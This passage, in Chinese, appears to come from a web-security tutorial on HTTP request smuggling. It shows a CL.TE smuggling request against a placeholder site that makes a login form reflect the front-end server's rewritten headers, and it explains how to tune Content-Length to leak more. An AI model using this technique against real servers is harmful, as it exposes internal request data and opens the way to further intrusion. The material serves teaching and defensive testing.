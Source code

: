 假设应用程序有个登录的功能，其会反映 email 参数：
```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

响应内容包括：
```
<input id="email" value="wiener@normal-user.net" type="text">
```

此时，你可以使用以下请求走私攻击来揭示前端服务器（转发服务）对请求的重写：

<code>
    <span style="color:blue">
        POST / HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        Content-Length: 130<br>
        Transfer-Encoding: chunked<br>
        <br>
        0<br>
    </span>
    <br>
    <span style="color:orange">
        POST /login HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        Content-Type: application/x-www-form-urlencoded<br>
        Content-Length: 100<br>
        <br>
        email=</span><span style="color:green">POST /login HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        ...
    </span>
</code>

前端服务器（转发服务）将会重写请求以添加标头，然后后端服务器将处理走私请求，并将第二个请求当作 email 参数的值，且在响应中反映出来：
```
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

注意：由于最后的请求正在重写，你不知道它需要多长时间结束。走私请求中的 `Content-Length` 头的值将决定后端服务器处理请求的时间。如果将此值设置得太短，则只会收到部分重写请求；如果设置得太长，后端服务器将会等待超时。当然，解决方案是猜测一个比提交的请求稍大一点的初始值，然后逐渐增大该值以检索更多信息，直到获得感兴趣的所有内容。
